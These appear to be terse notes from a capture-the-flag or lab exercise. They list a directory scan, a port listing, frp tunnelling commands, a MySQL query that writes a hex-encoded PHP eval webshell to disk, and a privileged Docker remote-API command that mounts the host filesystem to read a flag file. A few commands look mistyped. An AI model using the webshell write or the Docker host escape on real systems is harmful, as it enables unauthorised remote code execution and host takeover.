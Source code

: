 ```bash
#目录扫描,
dirsearch -u http://127.0.0.1 -w D:\dict\wordlists\dirb\common.txt -x 404

```

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
9000/tcp  open  cslistener
9090/tcp  open  zeus-admin
13306/tcp open  unknown

```
# kali
./frpc -c frpc.toml

#win 
C:\Users\ZhenyeFan\hwfrp
./frpc.exe -c frpc.toml
./frps.exe -c frps.exe
```


```
select unhex('3c3f706870206576616c28245f504f53545b305d293b') into dumpfile '/usr/lib64/mysql/plugin/mysqludf.so';
```


```
docker -H tcp://172.18.16.88:22375  run --privileged=true -it -v /:/tmp web /bin/bash
ccat /tmp/flag.txt
```